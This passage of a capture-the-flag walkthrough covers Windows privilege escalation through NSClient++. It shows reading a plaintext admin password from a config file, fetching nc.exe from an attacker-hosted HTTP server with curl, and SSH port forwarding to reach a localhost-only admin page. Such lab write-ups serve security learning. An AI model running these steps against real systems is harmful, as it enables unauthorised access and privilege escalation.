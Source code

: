 
# Privilege Escalation

Now time for the fun part, taking our low level user and gaining root.


## Enumeration, Post-Compromise

That's it folks. Rinse. Repeat. Once we get access we treat the system as if we were an external user again and see what we are working with, the benefit we have is we have access to poke around the file system and installed programs. This is where I like to start, making sure that there is nothing glaringly obvious right off the bat.

Taking a look around the users directories there isn't anything too interesting here, but over in C:\Program Files\ there is something which catches my eye. A program called 'NSClient++' which isn't installed by default with Windows, anything 'non-standard' is normally worth checking out. If we find a program there are two searches that I like to perform, one being to find any potential docs or guides on the programs setup or interacting with the program. Secondly, to see if there are any known exploits with it from a trusted source such as exploitdb/rapid7 etc.

In our case we have results on both accounts:

[https://docs.nsclient.org/](https://docs.nsclient.org/)

[https://www.exploit-db.com/exploits/46802](https://www.exploit-db.com/exploits/46802)

The exploit is a 7 step process which involves grabbing an admin password from a config file, setting up a malicious script and executing it.

## Exploitation: Part One. File Prepartion and Connection

We can view the contents of the nsclient.ini file @ C:\Program Files\NSClient++\nsclient.ini to retrieve the admin password stored in... yeah, plain text. 10/10 Security.

The web admin password is: **ew2x6SsGTxjRwXOT**

Before we login and attempt to execute anything we need to first get the files to run our exploit ready, from Step 3 of the exploit it seems that we will need to get nc.exe onto the host. In order to do this I preped nc.exe on the attacking machine and then hosted a simple http server using python:

    python3 -m http.server 8080

with this running I retrieved the files using curl after navigating to C:\temp on the target machine.

    curl http://10.10.15.248:8080/nc.exe --output nc.exe

**Note:** If you plan to use the WebUI to exploit this then you will want to make the evil.bat file and also place this on the temp drive using the same process, I used the API so skipped this step.

In the nsclient.ini file we also spot the 'Allowed hosts' section as being 127.0.0.1 which is the local host. How are we going to connect as if we are present on the machine itself.. After a bit of googling it looked as if we can use SSH port forwarding using the following command:

    ssh -L 7777:127.0.0.1:8443 Nadine@10.10.10.184

Essentially what we are saying is, Open an SSH connection as Nadine to 10.10.10.184 BUT, any traffic we send on our machine over 7777, send it via 127.0.0.1:8443. Testing this in the web browser entering: https://127.0.0.1:7777 returned the following logon page
